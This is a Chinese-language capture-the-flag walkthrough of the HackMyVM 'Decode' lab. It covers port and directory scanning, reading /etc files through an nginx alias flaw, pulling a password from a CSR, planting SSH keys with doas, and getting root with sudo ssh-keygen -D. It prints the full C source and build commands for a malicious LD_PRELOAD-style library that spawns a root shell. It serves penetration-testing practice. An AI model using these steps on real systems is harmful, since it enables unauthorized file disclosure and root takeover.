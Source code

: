 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_Decode.md","permalink":"/安全/靶机/hackmyvm_Decode/","title":"hackmyvm_Decode"}
---
```


# 主机发现

![Pasted image 20250128224741.png](/img/user/picture/Pasted%20image%2020250128224741.png)
两个端口服务显示`tcpwrapped`,应该是被防火墙拦了（或者是其他原因）

单独扫一下就出来了，可能是速率设置太高了？
![Pasted image 20250128225027.png](/img/user/picture/Pasted%20image%2020250128225027.png)
![Pasted image 20250128225304.png](/img/user/picture/Pasted%20image%2020250128225304.png)


# WEB渗透
主页没什么信息
![Pasted image 20250128225409.png](/img/user/picture/Pasted%20image%2020250128225409.png)

进行简单的目录扫描
```shell
sudo dirb http://192.168.124.14/
```
![Pasted image 20250128230152.png](/img/user/picture/Pasted%20image%2020250128230152.png)
`/robots.txt`
![Pasted image 20250128230218.png](/img/user/picture/Pasted%20image%2020250128230218.png)
里面有很多路径，但是有一些像是系统的路径而不是网页路径？

首先看一下`/decode/`,因为靶机就是交这个名字麻
![Pasted image 20250128230358.png](/img/user/picture/Pasted%20image%2020250128230358.png)
发现和主页很像，但是下面多了一个时间？
或许这个页面有一些隐藏参数？（我没测，因为发现了更有趣的）
![Pasted image 20250128230610.png](/img/user/picture/Pasted%20image%2020250128230610.png)
当我访问第一个的时候
![Pasted image 20250128230653.png](/img/user/picture/Pasted%20image%2020250128230653.png)
竟然能下载，所以我们就可以尝试一下`passwd`
因为passwd和crontab是在一个目录下
结果确实也可下载
![Pasted image 20250128230813.png](/img/user/picture/Pasted%20image%2020250128230813.png)
注意到有三个用户，其中有一个用户甚至给了加密密码
（这里要注意一下steve这个用户目录是`/usr/share`）
尝试破解：
好吧应该是爆破不出来


现在我们知道`/decode`目录应该是`/etc`这个目录，但是能不能返回上一目录呢
但其实我在这里就卡住了，看了看大佬的WP，知道确实可以返回去的
![Pasted image 20250128234204.png](/img/user/picture/Pasted%20image%2020250128234204.png)
可以看一下nginx的配置文件
```shell
curl http://192.168.124.14/decode/nginx/sites-enabled/default
```
是设置了一个别名
![Pasted image 20250129141423.png](/img/user/picture/Pasted%20image%2020250129141423.png)

`/decode`->`/etc/`
注意到前面少一个`/`



现在我们知道有三个用户，可以尝试读取一下敏感文件
```
steve
decoder
ajneya
```
![Pasted image 20250128234429.png](/img/user/picture/Pasted%20image%2020250128234429.png)
其余两个用户没有
![Pasted image 20250128234511.png](/img/user/picture/Pasted%20image%2020250128234511.png)


终于找到了关键信息：
![Pasted image 20250128234558.png](/img/user/picture/Pasted%20image%2020250128234558.png)

![Pasted image 20250128235050.png](/img/user/picture/Pasted%20image%2020250128235050.png)

手动解码一下：
```shell
openssl req -in example.csr -noout -text
```

```txt
Certificate Request:
    Data:
        Version: 1 (0x0)
        Subject: CN = HackMyVM, ST = decode, L = decode, O = HackMyVM
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:d9:d2:1b:db:c4:10:63:d1:80:30:3f:71:3e:8d:...
                    (省略部分，实际有更多内容)
                Exponent: 65537 (0x10001)
        Attributes:
            challengePassword        :i4mD3c0d3r
            Requested Extensions:
                X509v3 Key Usage: critical
                    Digital Signature, Key Encipherment
                X509v3 Extended Key Usage: critical
                    TLS Web Server Authentication, TLS Web Client Authentication
                X509v3 Subject Alternative Name:
                    DNS:hackmyvm.eu
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        3b:bd:d6:de:94:cc:a9:29:b6:03:7e:ef:7a:9b:91:e0:...
        (省略部分，实际有更多内容)
```
![Pasted image 20250129000316.png](/img/user/picture/Pasted%20image%2020250129000316.png)

这有一个密码`i4mD3c0d3r`,说实话不是很懂，但是是用户`steve`的密码。。。不懂
![Pasted image 20250129000422.png](/img/user/picture/Pasted%20image%2020250129000422.png)





# 提权-ajneya
![Pasted image 20250129000916.png](/img/user/picture/Pasted%20image%2020250129000916.png)
可以用decoder的身份运行，尝试了一下未果

用脚本跑了一下发现下面信息
![Pasted image 20250129113011.png](/img/user/picture/Pasted%20image%2020250129113011.png)
![Pasted image 20250129113147.png](/img/user/picture/Pasted%20image%2020250129113147.png)
看大佬的方法是将公钥cp到ajneya用户中的`.ssh/authorized_keys`中

![Pasted image 20250129114745.png](/img/user/picture/Pasted%20image%2020250129114745.png)
没有公钥的话可以先在攻击机上生成一下
```shell
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

在靶机的/tmp目录中创建好cp过去就行了
```shell
doas -u ajneya cp -a /tmp/.ssh ./
```

![Pasted image 20250129114938.png](/img/user/picture/Pasted%20image%2020250129114938.png)


# 提权root

![Pasted image 20250129121648.png](/img/user/picture/Pasted%20image%2020250129121648.png)

我们可以用root身份执行下面命令
```shell
/usr/bin/ssh-keygen * /opt/*
```

![Pasted image 20250129121728.png](/img/user/picture/Pasted%20image%2020250129121728.png)
可以通过优先加载一个恶意库来实现提权
`pe.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```shell
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
会生成一个恶意库`pe.so`


所以我们要运行的就是
```
sudo /usr/bin/ssh-keygen -D /opt/*/pe.so
```
现在主要问题就是opt目录下我们不可写

但是我们注意到
![Pasted image 20250129122148.png](/img/user/picture/Pasted%20image%2020250129122148.png)
这下面有一个decode目录
而`steve`可以用decode权限
![Pasted image 20250129122258.png](/img/user/picture/Pasted%20image%2020250129122258.png)

```shell
steve@decode:/tmp$cat pe.so | sudo -u decoder  /usr/bin/tee /opt/decode/pe.so
```

![Pasted image 20250129122509.png](/img/user/picture/Pasted%20image%2020250129122509.png)
成功




# 思路梳理

首先通过目录扫描发现web中目录`/decode`是连接到了服务器的`/etc/`，进而读到了passwd等文件
通过进一步测试或者通过获取nginx配置文件，发现漏洞，可以读到服务器是任意路径文件
从而在`steve`用户路径下读到bash_history，获取到可疑文件
从这个文件中获取到密码

现在获取到steve用户权限，通过脚本扫描发现具有`decoder`的tee权限、`ajneya`的cp权限
通过cp在ajneya目录中上传ssh公钥获取到其权限

ajneya具有root的`/usr/bin/ssh-keygen * /opt/*`权限
在结合steve的sudo权限进行提权





























